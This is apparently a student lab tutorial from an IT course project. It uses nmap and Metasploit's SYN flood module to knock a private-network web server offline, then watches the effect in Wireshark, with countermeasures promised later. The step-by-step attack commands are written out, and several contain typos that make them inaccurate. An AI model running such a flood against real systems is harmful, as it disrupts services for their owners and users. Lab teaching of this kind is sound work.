 # Attack Machine Setup
This is a separate virtual machine with an IP Address of _192.168.166.202_

1. To start, we will use 'nmap' to search the target machine to find an open port.  
`nmap 192.168.166.201`

![Attack1](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack1.png)

Nmap returns that port 80/tcp is open. This makes sense beacuse the target machin is running and HTTP server

2. The next step is to get ready to run the Metasploit console.  To do this we must ensure that postgresql is running

  `# /etc/init.d/postgresqlstatus`
  
  `#/etc/init.d/postgresqlstart`
  
  This starts the postgresql services.  Next we have to initialize the Metasploit database.
  
  `# msfdbinit`
  
  Once that is conplete, we can execute the Metasploit console
  
  `# msfconsole`
  
  ![Attack2](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack2.png)
  
 3. Now we can prepare Metaspliot to carry out our SYN Flood Attack.
 
  First, we select the auxiliary that will run the attack.
  'use auxiliary/dos/tcp/synfloof'
  
  Next set the target host's IP address.
  
  `set RHOSTS 192.168.166.201`
  
  The default target port should be 80, however it can be set using the following.
  
  `set RPORT 80`
  
  Once all the information is input, the attack can be executed with this command.
  
  `exploit`
  
  3. Durring the attack, Wireshark can be used to view how many packets have been sent to the target.
  
  ![Attack3](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack3.png)
  
  The highlighted portion shows that we have sent 119,591 packets to the target machine at this point in time
  
  Similarly, if we want to see how this is effecting the host machine, we can attempt to connect to the host site using the host's IP address.  The site should be slow to load or inaccessible entirely.  On the host machine, we can load the system info application and look at the network load
  
  ![Attack4](https://github.com/cnsxp4/StojebaIT2600FinalProject/blob/master/Attack4.png)
  
  This ends the Attack portion of the tutorial. We will attack the host again after implementing countermeasure so refernece this page when needed.
  
[Back to readme](README.md)

 
  
